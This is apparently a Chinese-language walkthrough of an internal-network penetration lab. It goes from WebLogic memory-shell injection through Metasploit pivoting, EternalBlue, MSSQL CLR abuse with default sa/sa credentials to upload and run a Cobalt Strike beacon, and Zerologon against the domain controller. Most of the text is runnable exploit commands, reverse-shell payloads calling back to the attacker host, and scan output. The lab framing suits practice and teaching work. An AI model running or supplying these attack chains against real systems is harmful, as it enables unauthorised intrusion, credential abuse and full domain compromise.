### 环境介绍

- 攻击机(本机):192.168.111.25
- 靶机:192.168.111.20

******

### 信息收集

- 使用`Fscan`进行信息收集获取资产,这里的`Fscan`版本为2.0.0,个人觉得这个版本较稳定

```cmd
Fscan -h 192.168.111.20
```



- 这里使用`Fscan`扫描发现目标开启了`7001`端口服务`Weblogic`

******

### Weblogic漏洞利用



- 注入`内存马`



```py
# URL
http://192.168.111.20:7001/bea_wls_internal/applicationSingletonProvider   
# 密码
hackfun1024  
# 秘钥
key 
```

- 连接`Godzilla`


******

### 上线MSF

- 由于当前哥斯拉连接的`webshell`是administrator权限,需要进行提权操作,上线MSF方便操作

```cmd
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.111.25
set lport 4444
run
```


- 成功获取MSF会话,进行`提权`,

```cmd
//查看进程
ps
//迁移进程
migrate pid
//查看当前用户
getuid
```





- 发现存在`10.10.20.0/24`网段,回到`meterpreter`添加路由

```cmd
meterpreter > run post/multi/manage/autoroute
```



******

### 内网段信息收集

- 上传`Fscan`扫一下20网段,回到meterpreter



- 上传fscan

```cmd
meterpreter > upload "C:\Users\24937\AppData\Roaming\Python\Python312\Scripts\FScan.exe" "C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\fscan.exe"
```



```cmd
C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain>fscan -h 10.10.20.0/24
fscan -h 10.10.20.0/24
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0

[2025-11-28 09:33:30] [INFO] 暴力破解线程数: 1
[2025-11-28 09:33:30] [INFO] 开始信息扫描
[2025-11-28 09:33:30] [INFO] CIDR范围: 10.10.20.0-10.10.20.255
[2025-11-28 09:33:30] [INFO] 生成IP范围: 10.10.20.0.%!d(string=10.10.20.255) - %!s(MISSING).%!d(MISSING)
[2025-11-28 09:33:30] [INFO] 解析CIDR 10.10.20.0/24 -> IP范围 10.10.20.0-10.10.20.255
[2025-11-28 09:33:30] [INFO] 最终有效主机数量: 256
[2025-11-28 09:33:30] [INFO] 开始主机扫描
[2025-11-28 09:33:31] [SUCCESS] 目标 10.10.20.12     存活 (ICMP)
[2025-11-28 09:33:32] [SUCCESS] 目标 10.10.20.7      存活 (ICMP)
[2025-11-28 09:33:34] [INFO] 存活主机数量: 2
[2025-11-28 09:33:34] [INFO] 有效端口数量: 233
[2025-11-28 09:33:34] [SUCCESS] 端口开放 10.10.20.12:135
[2025-11-28 09:33:34] [SUCCESS] 端口开放 10.10.20.12:445
[2025-11-28 09:33:34] [SUCCESS] 端口开放 10.10.20.12:139
[2025-11-28 09:33:34] [SUCCESS] 端口开放 10.10.20.7:445
[2025-11-28 09:33:34] [SUCCESS] 端口开放 10.10.20.7:135
[2025-11-28 09:33:34] [SUCCESS] 端口开放 10.10.20.7:139
[2025-11-28 09:33:36] [SUCCESS] 端口开放 10.10.20.12:7001
[2025-11-28 09:33:39] [SUCCESS] 服务识别 10.10.20.12:445 =>
[2025-11-28 09:33:39] [SUCCESS] 服务识别 10.10.20.12:139 =>  Banner:[.]
[2025-11-28 09:33:39] [SUCCESS] 服务识别 10.10.20.7:445 =>
[2025-11-28 09:33:39] [SUCCESS] 服务识别 10.10.20.7:139 =>  Banner:[.]
[2025-11-28 09:33:46] [SUCCESS] 服务识别 10.10.20.12:7001 => [http] 产品:Oracle WebLogic admin httpd
[2025-11-28 09:34:39] [SUCCESS] 服务识别 10.10.20.12:135 =>
[2025-11-28 09:34:39] [SUCCESS] 服务识别 10.10.20.7:135 =>
[2025-11-28 09:34:39] [INFO] 存活端口数量: 7
[2025-11-28 09:34:39] [INFO] 开始漏洞扫描
[2025-11-28 09:34:39] [INFO] 加载的插件: findnet, ms17010, netbios, smb, smb2, smbghost, webpoc, webtitle
[2025-11-28 09:34:39] [SUCCESS] 发现漏洞 10.10.20.7 [Windows 7 Ultimate 7601 Service Pack 1] MS17-010
[2025-11-28 09:34:39] [SUCCESS] NetInfo 扫描结果
目标主机: 10.10.20.12
主机名: weblogic
发现的网络接口:
   IPv4地址:
      └─ 192.168.111.20
[2025-11-28 09:34:39] [SUCCESS] NetInfo 扫描结果
目标主机: 10.10.20.7
主机名: work-7
发现的网络接口:
   IPv4地址:
      └─ 10.10.10.7
      └─ 10.10.20.7
[2025-11-28 09:34:39] [SUCCESS] NetBios 10.10.20.12     WORKGROUP\weblogic                  Windows Server 2012 R2 Datacenter 9600
[2025-11-28 09:34:40] [SUCCESS] 目标: http://10.10.20.12:7001
  漏洞类型: poc-yaml-weblogic-cve-2019-2725
  漏洞名称: v12
  详细信息:
        author:fnmsd(https://github.com/fnmsd),2357000166(https://github.com/2357000166)
        links:https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271
https://github.com/QAX-A-Team/WeblogicEnvironment
https://xz.aliyun.com/t/5299
        description:Weblogic wls-wsat XMLDecoder deserialization RCE CVE-2019-2725 + org.slf4j.ext.EventData
[2025-11-28 09:34:41] [SUCCESS] 检测到漏洞 http://10.10.20.12:7001/console/j_security_check poc-yaml-weblogic-console-weak 参数:[{username weblogic} {password weblogic123} {payload UTF-8}]
[2025-11-28 09:34:42] [SUCCESS] 网站标题 http://10.10.20.12:7001   状态码:404 长度:1164   标题:Error 404--Not Found
[2025-11-28 09:34:42] [SUCCESS] 发现指纹 目标: http://10.10.20.12:7001   指纹: [weblogic]
[2025-11-28 09:35:02] [SUCCESS] 扫描已完成: 14/14
```

- `10.10.20.12`是我们已经上线MSF的`192.168.111.20`的另一张网卡,不用管,直接看`10.10.20.7`



- 这里发现`10.10.20.7`存在`MS17-010`永恒之蓝漏洞

******

### 永恒之蓝

- 前面配置了路由但是忘记配置代理隧道了,现在配置一下,不然网络到不了20网段

```cmd
use auxiliary/server/socks_proxy
set SRVHOST 0.0.0.0
set SRVPORT 10800
set VERSION 5
run -j
```



- 加载`永恒之蓝`模块



- 设置攻击载荷(可能会失败,多试几次)

```cmd
setg Proxies socks5:127.0.0.1:10800
set ReverseAllowProxy true
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 10.10.20.7
set payload windows/x64/meterpreter/bind_tcp
run
```





- 发现多了张10网段的网卡,我们同理添加路由,并上传Fscan扫描看看





```cmd
C:\Windows\system32>fscan -h 10.10.10.0/24
fscan -h 10.10.10.0/24
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0

[2025-11-28 10:00:24] [INFO] 暴力破解线程数: 1
[2025-11-28 10:00:24] [INFO] 开始信息扫描
[2025-11-28 10:00:24] [INFO] CIDR范围: 10.10.10.0-10.10.10.255
[2025-11-28 10:00:24] [INFO] 生成IP范围: 10.10.10.0.%!d(string=10.10.10.255) - %!s(MISSING).%!d(MISSING)
[2025-11-28 10:00:24] [INFO] 解析CIDR 10.10.10.0/24 -> IP范围 10.10.10.0-10.10.10.255
[2025-11-28 10:00:24] [INFO] 最终有效主机数量: 256
[2025-11-28 10:00:24] [INFO] 开始主机扫描
[2025-11-28 10:00:24] [SUCCESS] 目标 10.10.10.7      存活 (ICMP)
[2025-11-28 10:00:24] [SUCCESS] 目标 10.10.10.8      存活 (ICMP)
[2025-11-28 10:00:24] [SUCCESS] 目标 10.10.10.18     存活 (ICMP)
[2025-11-28 10:00:30] [INFO] 存活主机数量: 3
[2025-11-28 10:00:30] [INFO] 有效端口数量: 233
[2025-11-28 10:00:30] [SUCCESS] 端口开放 10.10.10.8:135
[2025-11-28 10:00:30] [SUCCESS] 端口开放 10.10.10.18:80
[2025-11-28 10:00:30] [SUCCESS] 端口开放 10.10.10.8:80
[2025-11-28 10:00:30] [SUCCESS] 端口开放 10.10.10.18:135
[2025-11-28 10:00:30] [SUCCESS] 端口开放 10.10.10.7:135
[2025-11-28 10:00:30] [SUCCESS] 端口开放 10.10.10.8:88
[2025-11-28 10:00:31] [SUCCESS] 端口开放 10.10.10.7:139
[2025-11-28 10:00:31] [SUCCESS] 端口开放 10.10.10.8:389
[2025-11-28 10:00:31] [SUCCESS] 端口开放 10.10.10.7:445
[2025-11-28 10:00:31] [SUCCESS] 端口开放 10.10.10.8:443
[2025-11-28 10:00:31] [SUCCESS] 端口开放 10.10.10.18:139
[2025-11-28 10:00:31] [SUCCESS] 端口开放 10.10.10.8:445
[2025-11-28 10:00:31] [SUCCESS] 端口开放 10.10.10.8:139
[2025-11-28 10:00:31] [SUCCESS] 端口开放 10.10.10.18:445
[2025-11-28 10:00:31] [SUCCESS] 端口开放 10.10.10.8:808
[2025-11-28 10:00:33] [SUCCESS] 端口开放 10.10.10.18:1433
[2025-11-28 10:00:35] [SUCCESS] 服务识别 10.10.10.18:80 => [http]
[2025-11-28 10:00:35] [SUCCESS] 服务识别 10.10.10.8:80 => [http]
[2025-11-28 10:00:35] [SUCCESS] 服务识别 10.10.10.8:88 =>
[2025-11-28 10:00:36] [SUCCESS] 服务识别 10.10.10.7:139 =>  Banner:[.]
[2025-11-28 10:00:36] [SUCCESS] 服务识别 10.10.10.8:389 => [ldap] 产品:Microsoft Windows Active Directory LDAP 系统:Windows 信息:Domain: redteam.red, Site: Default-First-Site-Name
[2025-11-28 10:00:36] [SUCCESS] 服务识别 10.10.10.7:445 =>
[2025-11-28 10:00:36] [SUCCESS] 服务识别 10.10.10.18:139 =>  Banner:[.]
[2025-11-28 10:00:36] [SUCCESS] 服务识别 10.10.10.8:445 =>
[2025-11-28 10:00:36] [SUCCESS] 服务识别 10.10.10.8:139 =>  Banner:[.]
[2025-11-28 10:00:36] [SUCCESS] 服务识别 10.10.10.18:445 =>
[2025-11-28 10:00:36] [SUCCESS] 服务识别 10.10.10.8:808 =>
[2025-11-28 10:00:38] [SUCCESS] 服务识别 10.10.10.18:1433 => [ms-sql-s] 版本:10.00.1600; RTM 产品:Microsoft SQL Server 2008 系统:Windows Banner:[.%.@.]
[2025-11-28 10:00:41] [SUCCESS] 端口开放 10.10.10.8:8172
[2025-11-28 10:01:35] [SUCCESS] 服务识别 10.10.10.8:135 =>
[2025-11-28 10:01:35] [SUCCESS] 服务识别 10.10.10.18:135 =>
[2025-11-28 10:01:35] [SUCCESS] 服务识别 10.10.10.7:135 =>
[2025-11-28 10:01:36] [SUCCESS] 服务识别 10.10.10.8:8172 =>
[2025-11-28 10:01:56] [SUCCESS] 服务识别 10.10.10.8:443 =>
[2025-11-28 10:01:56] [INFO] 存活端口数量: 17
[2025-11-28 10:01:56] [INFO] 开始漏洞扫描
[2025-11-28 10:01:56] [INFO] 加载的插件: findnet, ldap, ms17010, mssql, netbios, smb, smb2, smbghost, webpoc, webtitle
[2025-11-28 10:01:56] [SUCCESS] NetBios 10.10.10.18     sqlserver-2008.redteam.red          Windows Server 2008 R2 Datacenter 7601 Service Pack 1
[2025-11-28 10:01:56] [SUCCESS] 发现漏洞 10.10.10.7 [Windows 7 Ultimate 7601 Service Pack 1] MS17-010
[2025-11-28 10:01:56] [SUCCESS] NetInfo 扫描结果
目标主机: 10.10.10.7
主机名: work-7
发现的网络接口:
   IPv4地址:
      └─ 10.10.10.7
      └─ 10.10.20.7
[2025-11-28 10:01:56] [SUCCESS] NetInfo 扫描结果
目标主机: 10.10.10.18
主机名: sqlserver-2008
发现的网络接口:
   IPv4地址:
      └─ 10.10.10.18
[2025-11-28 10:01:56] [SUCCESS] 网站标题 http://10.10.10.18        状态码:200 长度:689    标题:IIS7
[2025-11-28 10:01:56] [INFO] 系统信息 10.10.10.18 [Windows Server 2008 R2 Datacenter 7601 Service Pack 1]
[2025-11-28 10:01:56] [SUCCESS] NetInfo 扫描结果
目标主机: 10.10.10.8
主机名: owa
发现的网络接口:
   IPv4地址:
      └─ 10.10.10.8
[2025-11-28 10:01:56] [INFO] 系统信息 10.10.10.8 [Windows Server 2008 R2 Datacenter 7601 Service Pack 1]
[2025-11-28 10:01:56] [SUCCESS] NetBios 10.10.10.8      DC:owa.redteam.red               Windows Server 2008 R2 Datacenter 7601 Service Pack 1
[2025-11-28 10:01:56] [SUCCESS] 网站标题 http://10.10.10.8         状态码:403 长度:1157   标题:403 - 禁止访问: 访问被拒绝。
[2025-11-28 10:01:56] [SUCCESS] MSSQL 10.10.10.18:1433 sa sa
[2025-11-28 10:01:56] [SUCCESS] 网站标题 https://10.10.10.8        状态码:200 长度:689    标题:IIS7
[2025-11-28 10:01:56] [SUCCESS] 网站标题 https://10.10.10.8:8172   状态码:404 长度:0      标题:无标题
[2025-11-28 10:03:42] [SUCCESS] 扫描已完成: 32/32
```

- `10.10.10.7`是当前永恒之蓝上线主机的另一张网卡,pass掉
- 这里可以看到还有另外两台主机`10.10.10.18`有mssql数据库(sa/sa),`10.10.10.8`是DC域主机

*****

### MSF会话转CS

- 这里由于已经尝试很多次了,MSF的打mssql连不上会话,所以尝试转移会话用CS上线,坑太多了



- 将当前已经获取会话的两台主机会话转到CS上操作,这里我的CS是4.5版本,服务端和客户端都是在本机启动的



- 先转移上线会话1,设置监听器



```cmd
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set prependmigrate true
set DisablePayloadHandler true
set LHOST 192.168.111.25
set LPORT 680
set SESSION 1
run
```



- 会话2需要使用正向代理,目标机器不出网,网络到不了本机,只能我们通过隧道主动去连接,设置bind tcp监听器



- 生成CS exe马





******

### Mssql存储过程

- 前面MSF不是配置了10800的socks代理吗,现在使用`Proxifier`配置代理规则,然后使用`SharpSQLTools`传马



```cmd
SharpSQLTools.exe 10.10.10.18 sa sa master install_clr
SharpSQLTools.exe 10.10.10.18 sa sa master enable_clr
SharpSQLTools.exe 10.10.10.18 sa sa master clr_efspotato whoami
```



- 传入前面生成的CS木马

```cmd
// 以OLE分段上传
SharpSQLTools.exe 10.10.10.18 sa sa master upload C:\\Users\\24937\\Desktop\\beacons.exe C:\\Users\\Public\\beacons.exe
// 然后再拼接
SharpSQLTools.exe 10.10.10.18 sa sa master clr_combine C:\\Users\\Public\\beacons.exe
// 执行
SharpSQLTools.exe 10.10.10.18 sa sa master clr_efspotato "C:\\Users\\Public\\beacons.exe"
```

```
SharpSQLTools.exe 10.10.10.18 sa sa master upload C:\\Users\\24937\\Desktop\\beacons.exe C:\\Users\\Public\\beacons.exe
SharpSQLTools.exe 10.10.10.18 sa sa master clr_combine C:\\Users\\Public\\beacons.exe
SharpSQLTools.exe 10.10.10.18 sa sa master clr_efspotato "C:\\Users\\Public\\beacons.exe"
```



- 成功上线

******

### 横向移动



- 最后一台只剩`10.10.10.8`了,使用CVE-2020-1472（Zerologon）漏洞，把目标域成员服务器 10.10.10.8（NetBIOS 名 owa）的机器账户 owa$ 密码直接置空，用空密码横向

```cmd
// 这个模块需要一些时间,喝杯咖啡~
setg Proxies socks5:127.0.0.1:10800
set ReverseAllowProxy true
search cve-2020-1472
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
set rhosts 10.10.10.8
set nbname owa
run
```



- 再添加一个监听器



- 横向移动





```cmd
//找找flag
shell dir C:\ /s /b | findstr /i fla
```



******

### 最终完整拓扑图

